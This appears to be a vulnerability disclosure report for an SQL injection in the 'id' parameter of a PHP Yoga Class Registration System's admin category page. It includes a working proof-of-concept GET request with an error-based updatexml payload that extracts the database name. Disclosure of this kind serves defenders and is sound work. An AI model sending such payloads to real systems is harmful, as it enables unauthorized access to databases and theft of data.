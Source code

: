 ## Yoga Class Registration System has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html

## Vulnerability file
/php-ycrs/admin/?page=categories/view_category

## Vulnerability analysis
<img width="1171" alt="image" src="https://github.com/user-attachments/assets/b5d9be10-1b87-42c3-a98d-c7b8a3648b38">


## describe
There is an unrestricted SQL injection attack in the Yoga Class Registration System, and the controllable parameter is id. An attacker can obtain sensitive server information through this vulnerability.

POC
```
GET /php-ycrs/admin/?page=categories/view_category&id=6%27+and+updatexml%281%2Cconcat%280x7e%2C%28database%28%29%29%29%2C3%29--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
<img width="1543" alt="image" src="https://github.com/user-attachments/assets/82d00011-fc0d-4894-bffb-eaa76707adff">







